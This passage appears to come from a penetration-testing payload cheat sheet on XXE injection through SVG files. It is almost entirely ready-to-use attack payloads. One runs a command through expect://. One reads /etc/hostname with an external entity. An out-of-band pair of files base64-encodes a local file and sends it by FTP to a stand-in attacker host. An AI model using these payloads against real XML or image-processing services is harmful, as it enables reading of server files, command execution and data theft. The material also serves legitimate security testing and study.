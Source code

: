 [Other payloads using different DTDs](https://github.com/GoSecure/dtd-finder/blob/master/list/xxe\_payloads.md)

### **XXE in exotic files**

#### **XXE inside SVG**

```
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
```

**Classic**

```
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

**OOB via SVG rasterization**

_xxe.svg_

```
<!DOCTYPE svg [
<!ELEMENT svg ANY >
<!ENTITY % sp SYSTEM "http://example.org:8080/xxe.xml">
%sp;
%param1;
]>
<svg viewBox="0 0 200 200" version="1.2" xmlns="http://www.w3.org/2000/svg" style="fill:red">
      <text x="15" y="100" style="fill:black">XXE via SVG rasterization</text>
      <rect x="0" y="0" rx="10" ry="10" width="200" height="200" style="fill:pink;opacity:0.7"/>
      <flowRoot font-size="15">
         <flowRegion>
           <rect x="0" y="0" width="200" height="200" style="fill:red;opacity:0.3"/>
         </flowRegion>
         <flowDiv>
            <flowPara>&exfil;</flowPara>
         </flowDiv>
      </flowRoot>
</svg>
```

_xxe.xml_

```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/hostname">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'ftp://example.org:2121/%data;'>">
```
